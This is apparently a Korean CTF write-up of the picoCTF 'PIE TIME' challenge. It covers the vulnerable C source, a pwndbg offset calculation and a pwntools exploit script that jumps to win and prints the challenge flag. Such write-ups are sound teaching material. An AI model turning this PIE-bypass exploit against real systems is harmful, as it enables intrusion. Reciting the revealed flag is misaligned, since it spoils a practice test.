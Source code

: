 # [PIE TIME](https://play.picoctf.org/practice/challenge/490?category=6&page=1)
<br />

**Description:**
> Can you try to get the flag? Beware we have PIE!
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0072413e1b5a0613219f45518ded05fc685b680a, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/CTF/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />
<br />

바이너리를 실행하면 `main`의 주소를 출력하고, 점프할 주소를 입력 받습니다. `win`으로 점프하면 문제가 풀리지만, 바이너리에는 `PIE`가 적용되어 있어서 `win`의 주소를 특정하기 어렵습니다. 그러나 함수의 오프셋은 영향을 받지 않으므로, 디버깅을 통해 `win`의 오프셋을 구하면 문제를 쉽게 해결할 수 있을 것입니다.
```bash
pwndbg> p/a 0x55555555533d
$1 = 0x55555555533d <main>
pwndbg> p win
$2 = (<text variable, no debug info> *) 0x5555555552a7 <win>
pwndbg> p/x 0x55555555533d - 0x5555555552a7
$3 = 0x96
```
`main`과 `win`의 오프셋은 `0x96` 입니다.

```bash
$ ./vuln
Address of main: 0x564f85f0633d
Enter the address to jump to, ex => 0x12345: 0x564f85f062a7
Your input: 564f85f062a7
You won!
Cannot open file.
```
바이너리를 실행하여 제공되는 `main`의 주소에서 `0x96`만큼 뺀 주소로 점프하면 문제가 풀이됩니다.

<br />

```python
from pwn import *

context.log_level = "error"

#p = process("./vuln")
p = remote("rescued-float.picoctf.net", 59222)

p.recvuntil(b"0x")

MAIN = int(p.recv(12), 16)
WIN = MAIN - 0x96
log.info(f"WIN: {WIN:#x}")

p.sendlineafter(b"0x12345: ", hex(WIN).encode())
p.interactive()
```
```bash
$ python3 test.py
Your input: 563387db42a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_fec8b8c5}

$
```
